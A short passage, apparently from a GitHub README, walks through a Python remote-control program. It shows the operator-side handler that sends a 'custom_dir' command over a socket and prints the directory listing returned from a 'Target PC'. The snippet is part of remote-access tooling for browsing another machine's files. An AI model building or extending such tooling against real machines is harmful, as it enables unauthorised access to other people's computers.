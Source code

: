 
##
<img src=images/9.PNG  alt="alt text" width="950" height="550">

##

And we can find out where we are ```command output : C:\Users\mrgt7\Desktop\My-Documents\test ```


:star: Let's see which files and directories the Target PC has in for example ``` C ``` directory by running this part
of our program using ``` Custom_Dir ``` command and then choosing ``` c:\\ ```:

```python
    elif command == "custom_dir":
        conn.send(command.encode())
        print (" ")
        user_input = input(str("Custom_Dir: "))
        conn.send(user_input.encode())
        print("")
        print("Command has been sent")
        print("")
        files = conn.recv(5000)
        files = files.decode()
        print("Custom Dir Result : ", files)
        
```

        